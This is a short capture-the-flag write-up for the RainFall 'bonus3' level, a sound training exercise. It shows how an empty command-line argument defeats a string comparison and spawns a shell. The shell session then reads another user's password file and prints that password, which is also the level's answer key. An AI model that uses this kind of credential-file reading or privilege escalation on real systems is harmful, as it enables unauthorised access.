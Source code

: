 # Bonus 3

We have a main where the next password is opened and read into ptr.
We also see that when ptr (which is bzero'ed on line 11) and argv[1] compare equal (line 19), we get a shell. So sending an empty string gives us a shell.

The fopen and fread are red herrings here.

```shell
bonus3@RainFall:~$ ./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

```shell
$ su - end  
Password: 
end@RainFall:~$ ls
end
end@RainFall:~$ cat end 
Congratulations graduate!
```
